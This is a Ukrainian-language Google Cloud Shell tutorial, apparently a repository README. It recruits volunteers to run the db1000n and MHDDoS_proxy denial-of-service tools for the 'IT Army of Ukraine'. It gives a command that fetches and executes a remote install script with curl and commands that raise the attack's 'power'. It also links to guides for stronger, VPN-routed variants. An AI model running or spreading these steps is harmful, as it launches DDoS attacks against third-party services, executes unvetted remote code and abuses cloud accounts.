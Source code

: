 
#   Все буде Україна! 💙💛

## Бажаю вам гарного дня!

### Запуск «Death by 1000 needles» (db1000n)

- для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі
- це означає що все створене під час цього сеансу видалиться разом з віртуальною машиною  **після закінчення даного сеансу**

###  Зверніть увагу   
- якщо з'єднання перервано  **завантажтесь знову,** натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб перейти до запуску **db1000n** натисніть кнопку **START**

 ## Давайте почнемо
-  для запуска «Death by 1000 needles» (db1000n) скопіюйте команду розташовану нижче та натисніть клавішу **ENTER**
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього *зупиніть* процес натиснувши **Ctrl+C** та запустіть наступну команду
```bash
./db1000n --scale 0.7
```
-   або наступну команду з ще більшою потужністю
```bash
./db1000n
```
### 
Щоб переглянути навантаження на процесор використаємо команду **htop**
-   для цього додайте ще один термінал натиснувши 
<walkthrough-open-cloud-shell-button open-cloud-shell><walkthrough-open-cloud-shell-button open-cloud-shell/>

    та виконайте наступну команду
```bash
htop
```

## Пропоную для ознайомлення:

* натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=mhddos_proxy_tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

* інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* офіційна сторінка   [⚡ IT Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
